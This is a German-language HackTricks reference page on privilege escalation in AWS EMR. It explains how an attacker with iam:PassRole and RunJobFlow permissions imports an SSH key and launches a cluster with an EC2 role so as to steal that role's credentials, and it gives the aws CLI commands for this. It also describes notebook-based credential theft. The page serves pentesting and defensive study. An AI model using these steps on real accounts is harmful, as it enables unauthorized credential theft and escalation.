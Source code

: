 # AWS - EMR Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## EMR

Mehr **Info über EMR** in:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Ein Angreifer mit diesen Berechtigungen kann **einen neuen EMR-Cluster erstellen, indem er EC2-Rollen anfügt** und versuchen, dessen Anmeldeinformationen zu stehlen.\
Beachte, dass du dazu **einige SSH-Privatschlüssel, die im Konto importiert sind, kennen** oder einen importieren musst und in der Lage sein musst, **Port 22 im Master-Knoten zu öffnen** (du könntest dies mit den Attributen `EmrManagedMasterSecurityGroup` und/oder `ServiceAccessSecurityGroup` innerhalb von `--ec2-attributes` tun).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Notieren Sie, wie eine **EMR-Rolle** in `--service-role` und eine **EC2-Rolle** in `--ec2-attributes` innerhalb von `InstanceProfile` angegeben ist. Diese Technik ermöglicht jedoch nur das Stehlen der EC2-Rollenanmeldeinformationen (da Sie sich über SSH verbinden), jedoch nicht der EMR IAM-Rolle.

**Potenzielle Auswirkungen:** Privesc zur angegebenen EC2-Dienstrolle.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Mit diesen Berechtigungen kann ein Angreifer zur **AWS-Konsole** gehen, ein Notebook erstellen und darauf zugreifen, um die IAM-Rolle zu stehlen.

{% hint style="danger" %}
Selbst wenn Sie einer Notebook-Instanz in meinen Tests eine IAM-Rolle zuweisen, habe ich festgestellt, dass ich in der Lage war, AWS-verwaltete Anmeldeinformationen zu stehlen und nicht die Anmeldeinformationen, die mit der IAM-Rolle verbunden sind.
{% endhint %}

**Potenzielle Auswirkungen:** Privesc zur AWS-verwalteten Rolle arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Nur mit dieser Berechtigung kann ein Angreifer auf das **Jupyter Notebook zugreifen und die IAM-Rolle** stehlen, die damit verbunden ist.\
Die URL des Notebooks lautet `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Selbst wenn Sie einer Notebook-Instanz in meinen Tests eine IAM-Rolle zuweisen, habe ich festgestellt, dass ich in der Lage war, AWS-verwaltete Anmeldeinformationen zu stehlen und nicht die Anmeldeinformationen, die mit der IAM-Rolle verbunden sind.
{% endhint %}

**Potenzielle Auswirkungen:** Privesc zur AWS-verwalteten Rolle arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
